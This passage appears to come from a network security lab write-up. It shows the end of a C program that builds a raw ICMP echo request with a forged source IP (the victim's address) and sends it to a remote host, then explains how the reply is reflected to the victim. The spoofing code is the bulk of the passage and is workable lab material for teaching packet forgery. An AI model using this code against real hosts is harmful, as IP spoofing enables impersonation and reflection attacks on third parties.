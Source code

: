 ```c
    // Step 4: Send the packet out.
    sendto(sock, ip, ntohs(ip->iph_len), 0,
           (struct sockaddr *)&dest_info, sizeof(dest_info));
    close(sock);
}

int main() {
   char buffer[1500];

   memset(buffer, 0, 1500);

   struct icmpheader *icmp = (struct icmpheader *)(buffer + sizeof(struct ipheader));
   icmp->icmp_type = 8; 

   icmp->icmp_chksum = 0;
   icmp->icmp_chksum = in_cksum((unsigned short *)icmp,sizeof(struct icmpheader));

   struct ipheader *ip = (struct ipheader *) buffer;
   ip->iph_ver = 4;
   ip->iph_ihl = 5;
   ip->iph_ttl = 20;
   ip->iph_sourceip.s_addr = inet_addr("10.0.2.6");
   ip->iph_destip.s_addr = inet_addr("1.2.3.4");
   ip->iph_protocol = IPPROTO_ICMP;
   ip->iph_len = htons(sizeof(struct ipheader) + sizeof(struct icmpheader));
   printf("seq=%hu ", icmp->icmp_seq);
   printf("type=%u \n", icmp->icmp_type);
   send_raw_ip_packet(ip);

   return 0;
}
```

***Explanation:***
1. About the code:
Though the ICMP request originated from 10.0.2.4, the attacker created the packet with a spoofed IP (victim’s).
So, the remote server once received the ICMP packet, it responded back to the source IP that is present in the packet instead of sending to the attacker.
Thus, the attacker spoofed an ICMP Echo request.

2. About the question:
Created a spoof ICMP request from attacker machine with source IP as victim (10.0.2.6) and sent to remote server (1.2.3.4); 
the remote server responded to ICMP request and sent it to the victim (10.0.2.6).


***Screenshot:***